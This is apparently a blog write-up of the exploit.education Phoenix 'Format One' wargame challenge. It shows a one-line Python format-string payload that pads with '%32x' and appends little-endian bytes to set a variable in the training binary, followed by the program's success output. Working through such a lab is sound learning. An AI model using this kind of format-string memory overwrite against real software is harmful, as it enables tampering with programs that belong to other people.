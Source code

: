 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x1"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Format 1

Write-up for: [https://exploit.education/phoenix/format-one/](Format One)

<!--more-->

This is the exact same challenge as format-zero, but now we need to be precise.
Since we did this in the previous exercise already, we can come to the solution immediately.

We want to change the `changeme` variable to `0x45764f6c`

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "%32x" + "\x45\x76\x4f\x6c"[::-1]' | ./format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!
```

Remember the little-endianness aaand: done.

